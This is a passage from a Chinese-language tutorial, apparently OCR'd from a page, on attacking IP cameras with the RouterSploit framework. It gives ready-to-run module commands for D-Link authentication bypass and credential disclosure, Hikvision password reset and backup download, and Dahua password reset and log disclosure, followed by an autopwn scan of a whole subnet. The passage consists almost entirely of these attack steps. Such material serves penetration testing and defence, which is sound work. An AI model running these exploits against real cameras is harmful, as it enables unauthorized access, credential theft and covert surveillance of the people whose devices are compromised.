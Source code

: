 ### 2. 常用摄像头漏洞利用模块

#### D-Link 摄像头示例
```bash
# D-Link DCS 系列授权绕过
rsf > use exploits/cameras/dlink/dcs_930l_auth_bypass
rsf (D-Link DCS-930L Auth Bypass) > set target 192.168.1.100
rsf (D-Link DCS-930L Auth Bypass) > run

# D-Link 摄像头口令泄露
rsf > use exploits/cameras/dlink/dcs_9xx_credentials_disclosure
rsf (D-Link DCS-9XX Credentials Disclosure) > set target 192.168.1.101
rsf (D-Link DCS-9XX Credentials Disclosure) > run
```

#### 海康威视摄像头
```bash
# 海康威视口令重置漏洞
rsf > use exploits/cameras/hikvision/hikvision_password_reset
rsf (Hikvision Password Reset) > set target 192.168.1.102
rsf (Hikvision Password Reset) > run

# 海康威视备份文件下载
rsf > use exploits/cameras/hikvision/hikvision_backup_download  
rsf (Hikvision Backup Download) > set target 192.168.1.102
rsf (Hikvision Backup Download) > run
```

#### 大华摄像头
```bash
# 大华摄像头口令重置
rsf > use exploits/cameras/dahua/dahua_password_reset
rsf (Dahua Password Reset) > set target 192.168.1.103
rsf (Dahua Password Reset) > run

# 大华日志信息泄露
rsf > use exploits/cameras/dahua/dahua_log_disclosure
rsf (Dahua Log Disclosure) > set target 192.168.1.103
rsf (Dahua Log Disclosure) > run
```

---

## 三、摄像头专项扫描技术

### 1. 摄像头专用自动扫描
```bash
# 使用 autopwn 扫描摄像头网段
rsf > use scanners/autopwn
rsf (Autopwn) > set target 192.168.1.0/24
rsf (Autopwn) > run
```
